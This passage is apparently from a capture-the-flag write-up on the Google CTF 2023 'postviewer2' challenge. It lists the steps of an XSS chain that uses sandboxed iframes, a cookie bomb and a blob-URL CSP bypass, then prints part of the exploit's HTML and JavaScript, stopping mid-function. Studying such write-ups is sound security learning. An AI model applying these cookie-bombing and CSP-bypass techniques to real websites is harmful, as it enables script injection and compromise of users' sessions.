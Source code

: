 Later, my teammate found that adding the sandbox attribute to the iframe resolved the issue: `frame.sandbox = 'allow-modals allow-scripts allow-top-navigation allow-same-origin'`. This behavior is worth recording because I thought that not having the sandbox attribute would provide more permissions, but it turns out that adding the sandbox attribute is necessary.

So the updated process is as follows:

1. Load our own webpage first.
2. Embed an sbx iframe (f1) to obtain XSS.
3. Write a cookie from frame1 to prevent loading the /bomb path.
4. Add another iframe for /bomb (f2) without CSP.
5. Add another iframe (f3) for executing operations.
6. Modify the HTML of f2 from f3, where the script written will add a blob HTML and then change the top.location.
7. Successfully load the blob without any CSP.
8. Load the main domain iframe on the blob page.

At this point, the exploit has already reached 100 lines and is extremely complex:

``` html
<body></body>
<script>
  const sleep = ms => new Promise(r => setTimeout(r, ms))

  function createBombFrame() {

    let bombFrame = document.createElement("iframe")
    url = new URL("https://sbx-gggg.postviewer2-web.2023.ctfcompetition.com/shim.html");
    url.searchParams.set('o', window.origin);
    bombFrame.src = url

    bombFrame.addEventListener('load', () => {
      console.log('bombFrame created')
      bombFrame.contentWindow.postMessage({
        body: `
          <script>
            const domain = document.domain
            const cookieCount = 10
            const cookieLength = 3000
            const expireAfterMinute = 5
            setCookieBomb()

            function setCookie(key, value) {
              const expires = new Date(+new Date() + expireAfterMinute * 60 * 1000);
              const v = key + '=' + value + '; path=/bomb; domain=' + domain + '; Secure; SameSite=None; expires=' + expires.toUTCString()
              parent.document.cookie = v
            }

            function setCookieBomb() {
              const value = 'Boring' + '_'.repeat(cookieLength)
              for (let i=0; i<cookieCount; i++) {
                setCookie('key' + i, value);
              }
            }
          <\/script>`,
        mimeType: "text/html", sandbox: ["allow-modals", "allow-scripts", ["allow-same-origin"], ["allow-same-origin"]]
      }, "*")
    }, { once: true });
    document.body.appendChild(bombFrame)
  }

  function createBrokenFrame() {
    return new Promise(resolve => {
      let brokenFrame = document.createElement("iframe")
```
